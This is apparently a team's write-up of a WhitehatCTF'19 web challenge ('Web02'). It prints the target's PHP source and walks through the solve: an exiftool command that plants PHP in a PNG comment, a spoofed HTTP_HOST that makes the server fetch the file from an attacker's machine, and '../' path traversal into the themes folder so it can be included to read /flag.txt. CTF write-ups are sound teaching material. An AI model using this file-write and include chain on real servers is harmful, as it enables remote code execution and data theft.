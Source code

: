 ```yaml
---
layout: post
title: Title
excerpt: ""
categories: [Writeups, WhitehatCTF'19]
tags: [web]
---
```


This was the second web challenge we solved in Whitehat I thought this problem was much more interesting than the first. 

#### Web02
```
Challenge is available at http://52.78.36.66:81/
```

When we first visit the website, we see there is a form we can upload a picture which will get randomly hashed. It is restricted to being a PNG or JPG, we didn't manage to upload an SVG. There is also another section which allows you to make a post using a picture stored on the server.

The index page contained an HTML comment saying `<!-- flag is located at /flag.txt -->`. Now we knew what we wanted to find.

After looking at the requests we made when making a post, we noticed that we were making a post request to `http://52.78.36.66:81/post.php` 

If we visit this url in our browser with a get request, we are given the source of the page.

```php
<?php  
require_once('header.php');  
require_once('db.php');  
  
$post = [];  
  
function rotate_feature_img($post_id, $degrees) {  
	$post = get_post($post_id);  
	$src_file = $post['feature_img'];  
	$ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));  
  
	$src_file = "uploads/" . $src_file;  
	if ( !file_exists( $src_file ) ) {  
		$base_url = "http://" . $_SERVER['HTTP_HOST'];  
		$src = $base_url. "/" . $src_file;  
	} else {  
		$src = $src_file;  
	}  
	try {  
		$img = new Imagick($src);  
		$img->rotateImage('white', $degrees);  
	} catch (Exception $e) {  
		die('fail to rotate image');  
	}  
	@mkdir(dirname($src_file));  
	@$img->writeImage($src_file);  
}  
  
function get_title() {  
	global $post;  
	echo $post['title'];  
}  
  
function get_body() {  
	global $post;  
	echo $post['body'];  
}  
  
function get_img_src() {  
	global $post;  
	$base_url = "http://" . $_SERVER['HTTP_HOST'];  
	echo $base_url."/uploads/".$post['feature_img'];  
}  
  
function check_theme($theme) {  
	if(!in_array($theme, scandir('./themes'))) {  
	die("Invalid theme!");  
	}  
}  
  
if (isset($_GET['post_id'])) {  
	require_once('post_header.php');  
	  
	$post_id = $_GET['post_id'];  
	global $post;  
	$post = get_post($post_id);  
	if (isset($_GET['theme'])) {  
	$theme = $_GET['theme'];  
	} else {  
	$theme = 'theme1.php';  
	}  
	check_theme($theme);  
	include('themes/'.$theme);  
	echo("<button class='btn btn-primary' id='edit-btn'>Edit image</button>  
	<form action='post.php' method='post' width='50%'>  
	<div class='form-group' id='edit-div'>  
	<label for='exampleInputEmail1'>Degree</label>  
	<input type='text' class='form-control' id='exampleInputEmail1' placeholder='90' name='degree'>  
	<input type='hidden' class='form-control' id='exampleInputEmail2' value='$post_id' name='post_id'>  
	<button type='submit' class='btn btn-primary'>Rotate</button>  
	</div>");  
	require_once('post_footer.php');  
}  
else if (isset($_POST['post_id']) && isset($_POST['degree'])) {  
	$post_id = $_POST['post_id'];  
	rotate_feature_img($post_id, (int) $_POST['degree']);  
	header("Location: /post.php?post_id=$post_id&theme=theme1.php");  
} else {  
	show_source('post.php');  
}  
  
require_once('footer.php');  
?>`
```

I also noticed that the name of the website was `Sordpress`, similar to wordpress. I looked for similar wordpress exploits. I found an [article](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/) which explained something similar. 

Looking back at the source,  it is obvious that `"http://" . $_SERVER['HTTP_HOST']` can be exploited. On a server we control, we uploaded a file that we wanted to be uploaded to the challenge server. The image we used was created using the following command:
`exiftool -Comment='<?php include "/flag.txt";?>' flag.png`
This would put the php code in plaintext into the flag.png file. Other payloads we tried did not work. 

The current process to upload our own files was the following.
1. Upload our exploited png to our own server
2. Make a new post using the website
	* `HTTP_HOST` was set to the ip of our server
	* Featured image was set to `flag.png`

Now we had our file uploaded to the server, what could we do with it? We determined there was not much. It seemed like all files ending with `.php` were forbidden. However, when looking at the wordpress article, it mentioned putting the file into the themes folder. An observation we made was that when looking at a post, there was a parameter `theme`. We first thought this could be an LFI but when looking at the source, it seemed like LFI was impossible as it verified the file was in the `/themes` directory.  But, what if we could upload our file and put it into the themes folder. Then we could include it without problems and get our flag. 

The final process to get the flag was the following.
1. Upload our exploited png to our own server and put it in `/themes/` folder on a server we controlled
2. Make a new post using the website
	* `HTTP_HOST` was set to the ip of our server
	* Featured image was set to `../themes/flag.png`
		* The `../` was used to get rid of the `/uploads` which was prepended to our URL
3.  Finally, we could include our uploaded file using the themes argument by visiting `http://52.78.36.66:81/post.php?post_id=VBtLDmQP&theme=flag.png`
